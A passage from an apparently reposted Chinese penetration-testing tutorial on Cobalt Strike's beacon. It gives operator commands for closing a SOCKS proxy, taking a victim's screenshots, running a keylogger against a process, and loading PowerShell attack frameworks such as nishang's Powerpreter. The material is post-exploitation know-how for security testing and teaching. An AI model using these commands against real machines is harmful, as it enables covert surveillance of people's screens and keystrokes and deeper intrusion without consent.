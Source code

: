 复制以后，在msf中执行，则可以开启代理：

![Alt text](http://static.wooyun.org//drops/20151108/20151108071433873881446814274552.png)

关闭socks

    
    
    beacon>socks stop
    

## 0x053 Screenshot&Keylogger

这里的screenshot可以截取受害者一定时间的屏幕截图，操作命令为：

    
    
    beacon>screenshot [pid] <x86|x64> [run time in seconds]
    

或者

    
    
    beacon>screenshot
    

然后打开View->Screenshots，则可以看到屏幕截图：

![Alt text](http://static.wooyun.org//drops/20151108/20151108071447833511446821937451.png)

键盘记录器的使用方式为：

    
    
    Use: keylogger [pid] <x86|x64>
    

然后打开View->Keystrokes，则可以看到键盘记录结果：

![Alt text](http://static.wooyun.org//drops/20151108/20151108071449191721446822214072.png)

如果不想使用命令行，可以直接选择受害者计算机（可多选），右键->Explore->Process List：

![Alt text](http://static.wooyun.org//drops/20151108/20151108071452324221446822334742.png)

## 0x054 powershell-import

这个功能在后渗透测试中很有用，可以导入各种powershell渗透框架，比如nishang的powerpreter，直接执行：

    
    
    beacon> powershell-import
    

然后在文件浏览器里面选择 Powerpreter.psm1：

![Alt text](http://static.wooyun.org//drops/20151108/20151108071435963841446815492711.png)

或者直接执行：

    
    
    powershell-import [/path/to/local/script.ps1]
    
